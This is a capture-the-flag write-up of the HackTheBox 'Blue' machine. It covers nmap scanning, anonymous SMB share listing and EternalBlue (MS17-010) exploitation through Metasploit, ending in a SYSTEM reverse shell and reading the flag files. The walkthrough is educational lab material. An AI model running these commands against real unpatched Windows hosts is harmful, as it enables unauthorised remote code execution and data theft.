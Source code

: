 ```yaml
---
title: "Blue | HackTheBox Walkthrough"
date: 2025-06-10
excerpt: Walkthrough of HTB’s Blue, covering SMB enumeration, null sessions, and EternalBlue (MS17-010) exploitation.
categories:
  - htb               
header:
  teaser: /assets/images/htb/blue/blue.png
---
```


<img src="/assets/images/htb/blue/blue.png"
     alt="Alt text describing the image"
     class="align-center"      
     style="max-width: 600px;" />

# Overview
Blue is considered a beginner-friendly box on Hack The Box; its purpose was to teach a valuable lesson about how unpatched systems can become vulnerable. The EternalBlue exploit had severe implications worldwide and has been used in large-scale ransomware attacks. It targeted Windows Server Message Block (SMB) protocol, which is used for shared access to files, printers, and other network resources. Why was it so critical? Windows is one of the most widely used operating systems globally, and this exploit, which leveraged the SMBv1 bug, enabled remote code execution attacks on the target system. 

---

## Full Port Scan and Initial Enumeration

I kicked off with a full TCP port scan using aggressive timing to identify open services quickly.

---

```bash
nmap -sCV -p- <ip> --min-rate=1000 --min-parallelism=1000 -v
```

**Key Flags:**
- `-sC`: runs default Nmap scripts
- `-sV`: enables version detection
- `-p-`: Scans all 65535 ports
- `--min-rate=1000`: sends packets faster than the default rate.
- `--min-parallelism=1000`: sends probes in parallel for speed.

> I only use `--min-rate` and `--min-parallelism` in CTF environments to speed up discovery.

```
Nmap scan report for 10.129.13.80
Host is up (0.067s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-06-10T23:29:27+01:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-10T22:29:29
|_  start_date: 2025-06-10T22:12:45
|_clock-skew: mean: -4h40m37s, deviation: 34m37s, median: -4h20m38s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
From the nmap result we have 9 ports that are open which are all MSRPC besides 2.  

Ports `139` and `445` which are used for SMB.  

Looking further down in host script results we see that windows 7 professional is installed, and the computer name is Haris-PC.

---

## SMB Enumeration and Null Session Access

After seeing ports `139` and `445` open, I decided to check for unauthenticated SMB Access:

```bash
smbclient -L \\\\ip\\ -N
```


**Key Flags:**
- `-L`: This option allows you to list the existing shares.
- `-N`: Allows us to try and connect to SMB without credentials (Null Session)  

![](/assets/images/htb/blue/2smb.png)

This tests for null session access, and it worked! I was able to list all the available shares for us.  

To further enumerate share permissions, I ran:

```bash
nmap <ip> -p 445 --script=smb-enum-shares
```
This confirmed that several shares are readable and that SMBv1 was active. This is generally a red flag on older Windows systems due to how easy it is to exploit.

![](/assets/images/htb/blue/3nmapsmb.png)

---

## Finding The Vulnerability: MS17-010

From our Nmap scan, we can see that the target is running Windows 7 Pro, and SMBv1 is enabled. After a quick online search for `Windows 7 Professional 7601 vulnerability`, we were met with several pages, including Microsoft talking about MS17-010, which is the EternalBlue exploit, a remote code execution vulnerability.

![](/assets/images/htb/blue/4googleblue.png)

---

## Exploiting EternalBlue with Metasploit

On our console we are going to type `msfconsole` and once metasploit is up we will search for eternal blue and choose `exploit/windows/smb/ms17_010_eternalblue`

```bash
msfconsole
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
```
Instead of typing the whole exploit path, as I just showed, we could also use the corresponding number. In my case, it was 0

![](/assets/images/htb/blue/5msf.png)

After this, I set up the required options by typing 'options' and filling in the RHOST, LHOST, and LPORT fields.

**key Flags**
- `RHOST`: is the remote host, which in our case is the HTB IP.
- `LHOST` is for our local host.
- `LPORT`: is for the port we want to use

```bash
set RHOST 10.129.13.80
set LHOST <OUR  IP>
set LPORT 4444 # or whichever port you would like to use
```

![](/assets/images/htb/blue/6setup.png)

I ran `check` to verify if the host was vulnerable, and metasploit confirmed it.

```bash
check
```

![](/assets/images/htb/blue/7check.png)

After confirmation, I typed 'run' and the exploit executed. Once we see `meterpreter>` we can type shell to get a shell and we are in as system!

```bash
run
```

![](/assets/images/htb/blue/8run.png)

```bash
shell
```

![](/assets/images/htb/blue/9pwnd.png)

---

## Post-Exploitation and Flags

With full system access I was able to retrieve the user and root flags by going through Haris' folder and administrator.  

Both flags reside on the desktop of each user.

```bash
cd C:\Users
dir

cd Haris\Desktop
type user.txt
```

![](/assets/images/htb/blue/10user.png)

```bash
cd ..\Administrator\Desktop
type root.txt
```

![](/assets/images/htb/blue/11root.png)

Flags obtained:

- `user.txt`: ✔️  
- `root.txt`: ✔️

---

## Key Takeaways
- Always check for null sessions when SMB is open
- SMBv1 is still in use and can be easily exploited, as we have demonstrated.
- Always use multiple tools! In our case, we did use smbclient with nmap to get a better picture early on.

More info: [MS17-010 (CVE-2017-0144)](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

---


